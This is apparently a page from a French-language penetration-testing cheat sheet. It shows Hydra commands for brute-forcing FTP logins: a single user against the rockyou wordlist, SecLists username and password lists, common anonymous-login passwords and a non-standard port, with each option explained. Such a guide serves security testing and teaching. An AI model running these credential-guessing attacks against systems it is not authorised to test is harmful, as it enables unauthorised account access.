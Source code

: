### Exemples de brute force FTP avec Hydra

#### 1. Brute force utilisateur unique, liste de mots de passe
```bash
# Test de mots de passe pour un utilisateur spécifique
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://target

# Avec options avancées
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 16 -f -v ftp://target
```

**Explication des options :**
- `-l admin` : Teste uniquement l'utilisateur "admin"
- `-P rockyou.txt` : Utilise la wordlist rockyou pour les mots de passe
- `-t 16` : Utilise 16 threads parallèles (plus rapide)
- `-f` : S'arrête dès qu'un mot de passe valide est trouvé
- `-v` : Affiche les informations de progression

#### 2. Brute force liste d'utilisateurs, liste de mots de passe
```bash
# Test complet avec listes d'utilisateurs et mots de passe
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt \
      -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/top-passwords-shortlist.txt \
      -t 16 -f -V ftp://target
```

**Explication :**
- `-L users.txt` : Liste d'utilisateurs courants
- `-P passwords.txt` : Liste de mots de passe courants
- `-V` : Mode très verbose, affiche chaque tentative
- `ftp://target` : Spécifie le service FTP sur la cible

#### 3. Brute force avec utilisateur anonyme
```bash
# Test spécifique pour anonymous
hydra -l anonymous -P passwords.txt ftp://target

# Test avec mots de passe vides/courants
hydra -l anonymous -p "" ftp://target
hydra -l anonymous -p anonymous ftp://target
hydra -l anonymous -p ftp ftp://target
```

#### 4. Brute force avec port personnalisé
```bash
# FTP sur port non-standard
hydra -l admin -P rockyou.txt -s 2121 ftp://target

# Ou avec la syntaxe alternative
hydra -l admin -P rockyou.txt ftp://target:2121
```
